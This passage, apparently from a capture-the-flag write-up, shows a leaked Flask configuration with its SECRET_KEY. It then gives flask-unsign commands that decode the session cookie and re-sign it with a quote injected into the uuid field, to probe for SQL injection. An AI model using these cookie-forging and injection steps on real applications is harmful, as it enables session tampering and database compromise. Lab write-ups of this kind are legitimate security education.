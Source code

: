 ```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```

### SQLI in cookie

Decoding the current cookie and looking at it's structure, it looks like it might be worth checking for a possbible sqli vulnerability.

[![session_cookie](/img/spider/session_cookie.png)](/img/spider/session_cookie.png)

```
$ flask-unsign -c eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6IjEyOWY2MGVhLTMwY2YtNDA2NS1hZmI5LTZiZTQ1YWQzOGI3MyJ9.YLOOqw.muC8GdLqORSbJhggIGtexj3no5s -d -S Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942
{'cart_items': [], 'uuid': 'd9b910d5-3180-4274-a3e0-6d82e9fef789'}
```

In a first test we add a single quote to `uuid`, encode the cookie again and replace it with our current one in the browser.

```
$ flask-unsign --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942 -s -c "{'cart_items': [], 'uuid': \"d9b910d5-3180-4274-a3e0-6d82e9fef789'\"}"
eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6ImQ5YjkxMGQ1LTMxODAtNDI3NC1hM2UwLTZkODJlOWZlZjc4OScifQ.YLOAgw.9bWstBhEiQY7QS4sKCaF3c93bTE
```

This gives an error in the application which is a good sign for us. If we are able to fix the query now with a comment, SQLI is more than likely and we can try to exploit it.
